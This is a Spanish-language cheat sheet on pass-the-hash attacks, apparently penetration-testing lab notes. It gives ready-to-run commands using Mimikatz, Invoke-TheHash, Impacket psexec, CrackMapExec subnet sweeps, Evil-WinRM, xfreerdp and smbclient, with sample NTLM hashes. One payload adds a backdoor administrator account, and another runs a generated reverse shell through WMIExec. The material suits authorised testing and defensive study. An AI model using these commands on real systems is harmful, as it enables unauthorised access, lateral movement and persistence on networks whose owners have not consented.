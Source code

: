Si encontramos un hash NTLM podemos hacer uso del mismo aprovechando las facilidades que ofrecen los SO para correr servicios sin tener que poner la contraseña una y otra vez


### WINDOWS
##### Pass the hash con Mimikatz:
Requerimos:
- Hash NTLM o RC4
- User
- Dominio

    mimikatz.exe privilege::debug "sekurlsa::pth /user:<user> /rc4:<hash> /domain:<dominio o nombre del host> /run:<.exe a ejecutar>" exit

##### PTH con Powershell & Invoke-TheHash:
Target - Hostname or IP address of the target.

Username - Username to use for authentication.

Domain - Domain to use for authentication. This parameter is unnecessary with local accounts or when using the @domain after the username.

Hash - NTLM password hash for authentication. This function will accept either LM:NTLM or NTLM format.

Command - command to run after connection

        https://github.com/Kevin-Robertson/Invoke-TheHash



        Import-Module .\Invoke-TheHash.psd1



        Invoke-SMBExec -Target <ip/hostname> -Domain <domain> -Username <username> -Hash <hash> -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose

Tambien podemos usar revshell para generar una shell reversa y ejecutarla con WMIExec:

creamos la reverse shell:


        https://www.revshells.com/:



        Invoke-WMIExec -Target <hostname/ip> -Domain <domain> -Username <username> -Hash <hash> -Command "<reverse_shell_generada>"


### Linux
#### Impacket:

        impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453

#### Crackmapexec:
        crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453

tambien podemos buscarlo con local accounts:


        sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +

#### Evil-winRM:

        evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453

#### RDP:
        xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B

#### SMB:

    smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
